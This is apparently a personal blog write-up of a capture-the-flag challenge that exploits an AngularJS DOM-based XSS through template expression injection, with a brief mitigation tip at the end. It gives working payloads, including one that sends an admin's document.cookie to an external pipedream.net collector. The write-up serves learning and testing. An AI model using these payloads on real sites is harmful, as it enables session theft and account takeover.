 ```yaml
---
title: Angular XSS DOM BASED
summary: Explanation of XSS Angular DOM based vulnerability.
date: "2022-08-07T10:00:00+02:00"
---
```


# Introduction

Tonight I'm doing another challenge for XSS vulnerabilities, specially with AngularJS which is a really common framework for developing webapps.

As you may know ["Cross-site scripting carried out on websites accounted for roughly 84% of all security vulnerabilities"](https://en.wikipedia.org/wiki/Cross-site_scripting)
This time I had some fun with this new challenge which consisted about finding a XSS DOM-based vulnerability with ["Angular Expressions"](https://www.w3schools.com/angular/angular_expressions.asp)




## First things first!

The way Angular binds data into the HTML is via expressions, and AngularJS expressions are written in double braces `{{}}`

- As a first step (and we assume our vulnerable webapp is using Angular as the underlying technology) a `ng-app` **must appear** inside the source code. Otherwise our AngularJS expressions won't work
- Then, a vulnerable user input should be localized (in order to inject our payloads)
- Before the last step, we must ensure that the vulnerable input field is within the `ng-app` directive
- At last, let's put our XSS Payload inside braces, we can test it with one such as: `` {{$on.constructor("alert(1)")()}}`` *


* We are using "$on.constructor" in this case because we want to use dependency injection upon the new DOM node creation, you can find more info [here](https://angular.io/guide/dependency-injection#providing-dependency-1), in this case `NgOnInit` wouldn't work for us because when this latter one is called by Angular, the DOM has been already created. ["Here's an article with more information about it"](https://medium.com/angular-in-depth/the-essential-difference-between-constructor-and-ngoninit-in-angular-c9930c209a42)

### Hands on! :fire:

We have this challenge, with an input that seems to be "unsafe":  
![xss dom image](xssdom1.PNG)

Let's see if the response source-code contains something interesting:

![xss dom image 2](xssdom2.PNG)

Ahá! We can see the `ng-app` directive and inside it our string (my name in this case)

Let's try to put a simple payload, like the one mentioned avobe ``('{{$on.constructor("alert(\`hello!\`)")()}}')``...
![xss dom image 3](xssdom3.PNG)

And we have succesfully injected our payload.
It's clearly seen that this payload is seen in the query string part of the URI, so we can use this to steal the admin's cookie.
For this purpose we will have to do 2 things:

1. Adapt the payload to send the response to our desired endpoint (pipedream.net in my case, for simplicity's sake)  
2. Let the admin execute the payload (as this is a vulnerable site, it's done via the contact page :) )

In this example, I'm adapting the payload for stealing the cookie's admin like this:

```sh 
$<protocol>://<domain>/contact?url=[[[[PAYLOAD]]]]

# The payload can be then teared down like:
{{$on.constructor("href=`desired-endpoint.com?querystring=`.concat(admin.cookie)")()}}

# And the resulting query being:
http://vulnerable_domain.com/?url={{$on.constructor("document.location=`https://eoj1ovww5kfcgvi.m.pipedream.net?cookie=`.concat(document.cookie)")()}}"
```
Aaand... there it is!  
![xss dom image 4](xssdom4.PNG)

We have captured our :sparkles: flag! :sparkles:

## How this vulnerability could have been avoided?

There's a really simple answer: You should **avoid** allowing data from any untrusted source to be dynamically written to the HTML document!! 


Thank you for being here :heart: 
See you around!
